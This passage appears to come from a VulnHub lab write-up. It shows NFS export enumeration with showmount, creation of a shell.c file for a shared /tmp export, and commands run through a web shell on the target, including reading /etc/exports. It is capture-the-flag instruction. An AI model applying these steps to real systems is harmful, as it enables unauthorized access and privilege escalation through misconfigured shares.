 {% highlight bash %}
showmount -e 10.37.129.9
Export list for 10.37.129.9:
/tmp *
{% endhighlight %}

This lists out all the exports mount points from nfs.  The exported mount point is: /tmp so lets mount it!

{% highlight bash %}

mkdir /tmp/vulnhub
cd /tmp/vulnhub
ls -lath
total 48K
drwxrwxrwt 12 root root 4.0K Aug 24 22:36 .
drwx------  2 root root 4.0K Aug 24 20:57 tracker-extract-files.0
drwxrwxrwt  2 root root 4.0K Aug 24 20:57 .ICE-unix
drwx------  2 root root 4.0K Aug 24 20:57 ssh-TVL1oS3wkLKA
drwxrwxrwt  2 root root 4.0K Aug 24 20:57 .X11-unix
drwx------  3 root root 4.0K Aug 24 20:57 systemd-private-3286c9b159bb4c5998249430cd42edb1-colord.service-2d3vOv
drwx------  3 root root 4.0K Aug 24 20:57 systemd-private-3286c9b159bb4c5998249430cd42edb1-rtkit-daemon.service-YYM1kZ
drwxrwxrwt  2 root root 4.0K Aug 24 20:57 .font-unix
drwxrwxrwt  2 root root 4.0K Aug 24 20:57 .Test-unix
drwxrwxrwt  2 root root 4.0K Aug 24 20:57 .XIM-unix
drwxrwxrwt  9 root root 4.0K Aug  9 14:45 vulnhub
drwxr-xr-x 23 root root 4.0K Aug  7 20:26 ..

touch shell.c
{% endhighlight %}

Then on our web shell:

{% highlight bash %}

ls -lath /tmp
total 48K
drwxrwxrwt  9 root root 4.0K Aug  9 16:45 .
-rw-r--r--  1 root root  139 Aug  9 15:56 shell.c
drwx------  3 root root 4.0K Aug  7 22:21 systemd-private-765d21d4df6547a5844544a1a0c980b4-dovecot.service-eftoMO
drwx------  3 root root 4.0K Aug  7 22:21 systemd-private-765d21d4df6547a5844544a1a0c980b4-systemd-timesyncd.service-uFCgDz
drwxrwxrwt  2 root root 4.0K Aug  7 22:21 .ICE-unix
drwxrwxrwt  2 root root 4.0K Aug  7 22:21 .Test-unix
drwxrwxrwt  2 root root 4.0K Aug  7 22:21 .X11-unix
drwxrwxrwt  2 root root 4.0K Aug  7 22:21 .XIM-unix
drwxrwxrwt  2 root root 4.0K Aug  7 22:21 .font-unix
drwxr-xr-x 24 root root 4.0K Oct 30  2016 ..

cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#